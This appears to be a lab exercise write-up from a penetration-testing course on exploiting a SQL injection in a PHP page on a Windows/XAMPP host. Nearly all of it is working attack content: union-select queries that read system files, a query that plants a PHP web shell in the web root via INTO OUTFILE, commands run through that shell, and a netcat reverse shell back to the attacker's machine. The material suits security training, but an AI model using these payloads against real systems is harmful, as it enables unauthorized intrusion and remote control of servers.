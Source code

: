 9.4.5.11

# 9.4.5.11
## # 9.4.5.11.1. Exploit the SQL injection along with the MariaDB INTO OUTFILE function to obtain code execution.

Read a file using the load_file function
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')`
![fdd3ed88847831685e5eff6f71160cb8.png](../../_resources/3dc98927695d4a7ca604ccb57ccc8709.png)

Use the *INTO OUTFILE* function to create a malicious PHP file in the server's web root.  `http://192.168.214.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
![8e446750bb0b98a0a00b8c62cf3359db.png](../../_resources/c7df686013164741938fe9b50102546c.png)

We had gotten an error above, but backdoor.php was created anyway. Let's try accessing it. It works!
`http://192.168.214.10/backdoor.php?cmd=ipconfig`
![f7d947ebfe112350911c62fd8426d3ae.png](../../_resources/01b3b731a88e40b080e70a2e0ac50f59.png)



## # 9.4.5.11.2. Turn the simple code execution into a full shell.

Open a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lvnp 5678
listening on [any] 5678 ...
```

Create a netcat client on the Windows machine
`http://192.168.214.10/backdoor.php?cmd=nc -nv 192.168.119.214 5678 -e cmd.exe`
![67e9141d91909f5fa91cfbcba7fb1351.png](../../_resources/299c97882bf24cc88dad131a58475c5b.png)


Notice we now have a shell on the Kali machine
![55c76338b4508e7d9538e7cb339a27ac.png](../../_resources/1eebf611ca5047ed911c7f6320f811aa.png)

















